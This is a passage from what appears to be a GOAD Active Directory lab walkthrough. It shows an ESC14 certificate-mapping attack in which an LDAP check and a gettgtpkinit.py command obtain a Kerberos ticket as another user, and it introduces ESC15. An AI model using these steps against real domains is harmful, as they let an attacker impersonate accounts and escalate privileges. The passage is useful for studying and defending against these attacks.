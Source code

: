 - We can check the value is well changed and use our certificate to authenticate to pkinit

```bash
# check attribute
ldeep ldap -u missandei -d essos.local -p fr3edom -s ldap://192.168.56.12 search '(samaccountname=khal.drogo)' altSecurityIdentities
[{
  "altSecurityIdentities": [
    "X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>110000000000a68816e592b078921100000043"
  ],
  "dn": "CN=khal.drogo,CN=Users,DC=essos,DC=local"
}]

# authentication using our certificate on khal.drogo user !
gettgtpkinit.py -cert-pfx esc14computer.pfx -dc-ip 192.168.56.12 "essos.local/khal.drogo" khal_tgt.cccache
```

![part14_esc14_finish.png](/assets/blog/GOAD/part14_esc14_finish.png)


## ESC15 (CVE-2024-49019)
Essos webserver template is vulnerable to ESC15 in GOAD.
